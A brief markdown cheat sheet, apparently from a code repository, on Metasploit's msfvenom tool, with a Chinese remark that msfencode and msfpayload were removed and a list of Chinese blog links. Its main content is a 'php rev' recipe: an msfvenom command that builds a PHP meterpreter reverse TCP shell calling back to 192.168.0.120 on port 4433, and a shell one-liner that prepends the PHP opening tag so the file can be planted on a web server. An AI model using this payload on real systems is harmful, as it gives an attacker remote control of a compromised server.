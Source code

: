 # msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.120 LPORT=4433 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
